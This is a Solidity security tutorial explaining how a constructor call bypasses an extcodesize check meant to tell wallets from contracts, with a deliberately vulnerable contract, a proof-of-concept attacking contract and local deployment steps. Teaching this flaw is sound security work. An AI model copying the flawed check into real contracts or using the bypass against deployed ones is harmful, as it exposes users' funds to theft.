


# 👿 isContract Manipulation
## The concept
There are two types of accounts in the Ethereum world.
1. EOA Externally Owned Accounts, these are users of wallets
2. Contracts, these are deployed smart contracts,

Sometimes there is a requirement to check if the caller is a EOA or a Contract.<br><br>
The code for this in solidity is to use inline assembly as below.<br><br>
```
assembly {
    contract_codesize := extcodesize(who_is_calling)
}
```
<br><br>
The code checks if the address at ```who_is_calling``` has code associated with it.<br><br>

There is a way to make a malicious contract seem as though there is no code associated with it, and that is by calling the vulnerable contract and function from within the malicious contract's constructor.<br><br>
Below is a vulnerable contract and a test contract to test this concept. We will be using anvil from the Foundry suite to deploy from Remix.<br><br>

```
// SPDX-License-Identifier: Unlicensed
pragma solidity 0.8.18;

contract VulnerableContract
{
    function notcontracts() public view returns (uint256 somethingReallyValuable)
    {
        //assume all checks are done
        uint256 contract_codesize;
        address who_is_calling;
        who_is_calling = msg.sender;
        //First check the extcodesize of the caller
        assembly {
            contract_codesize := extcodesize(who_is_calling)
        }
        if(contract_codesize > 0)
        {
            //THIS IS A CONTRACT CALLING SO THEY CAN'T GET OUR SUPER VALUABLE ASSET
            somethingReallyValuable = 0;
        }
        else
        {
            //THIS IS A USER CALLING SO THEY CAN GET ALL OF OUR SUPER VALUABLE ASSET
           somethingReallyValuable = type(uint256).max; 
        }
    }
}

contract testCodeSize{
    uint256 public allTheirValue;
    address public vulnerablecontract;

    //When the constructor runs the extcodesize is still 0
    //lets see what allTheirValue is after the constructor
    //allTheirValue should be uint256 Max value.
    constructor(address _vulnerablecontract){
        vulnerablecontract = _vulnerablecontract;
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }
    //This function should set allTheirValue to 0
    function wontWork() external {
        allTheirValue = VulnerableContract(vulnerablecontract).notcontracts();
    }


}
```

In the ```testCodeSize``` there is a variable called ```allTheirValue```, this will hold the value that is retrieved from the Vulnerable contract, if the call is able to bypass the check for code size we should see the ```allTheirValue``` variable holding a very large value, however if it fails the value should be "0". In the ```testCodeSize``` contract,  the call to ```VulnerableContract.notcontracts()``` is made from within the constructor and an external function called ```wontWork()```.<br><br>

Below are screenshots of the value held by ```allTheirValue``` after deployment and then after calling the ```wontWork()``` function.<br><br>

First deploy ```VulnerableContract```<br><br>
Copy the deployed address of ```VulnerableContract``` and deploy the ```testCodeSize``` contract<br><br>
Directly after the deployment of the ```testCodeSize``` contract the value of the ```allTheirValue``` variable holds a really large value<br><br>
<br><br>
After calling ```VulnerableContract.notcontracts()``` the value of the ```allTheirValue``` variable is now "0" as the ```testCodeSize``` contract now has code associated with it.<br><br>
<br><br>
